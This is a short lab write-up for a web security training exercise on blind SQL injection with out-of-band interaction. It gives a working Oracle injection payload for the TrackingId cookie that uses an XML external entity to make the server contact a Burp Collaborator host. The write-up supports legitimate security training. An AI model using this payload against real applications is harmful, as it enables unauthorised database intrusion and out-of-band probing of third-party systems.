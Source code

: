 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

> Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Burp Suite to intercept and modify the request containing the TrackingId cookie.

Modifying the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server.

![image](https://github.com/udayk01/Web-Security/assets/52235763/1ba24fa6-be85-4765-b1d3-fdac89709dfa)

> TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//**BURP-COLLABORATOR-SUBDOMAIN**/">+%25remote%3b]>'),'/l')+FROM+dual--

> "Insert Collaborator payload" to insert a Burp Collaborator subdomain

![image](https://github.com/udayk01/Web-Security/assets/52235763/cf667f0f-ba73-44b0-b494-8ff33b13b441)
